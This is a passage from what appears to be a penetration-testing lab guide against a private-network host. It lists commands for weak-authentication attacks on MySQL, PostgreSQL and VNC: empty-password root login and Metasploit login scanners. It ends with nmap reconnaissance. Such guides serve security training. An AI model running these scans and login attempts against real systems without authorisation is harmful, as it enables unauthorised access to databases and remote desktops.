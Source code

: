 ### 10. MySQL (Port 3306) - Weak Authentication
```bash
# Connect with empty password
mysql -h 172.21.0.3 -u root

# Metasploit MySQL login
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 172.21.0.3
set USERNAME root
set BLANK_PASSWORDS true
run

# MySQL enumeration
use auxiliary/admin/mysql/mysql_enum
set RHOSTS 172.21.0.3
set USERNAME root
set PASSWORD ""
run
```

### 11. PostgreSQL (Port 5432) - Authentication Issues
```bash
# Connect to PostgreSQL
psql -h 172.21.0.3 -U postgres

# Metasploit PostgreSQL login
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 172.21.0.3
run
```

### 12. VNC (Port 5900) - Weak/No Password
```bash
# Connect to VNC
vncviewer 172.21.0.3:5900

# Metasploit VNC login
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 172.21.0.3
run
```

## Complete Exploitation Workflow

### Phase 1: Reconnaissance
```bash
# Network discovery
nmap -sn 172.21.0.0/24

# Port scanning
nmap -sS -sV -A 172.21.0.3

# Service enumeration
nmap --script=default,discovery 172.21.0.3
```
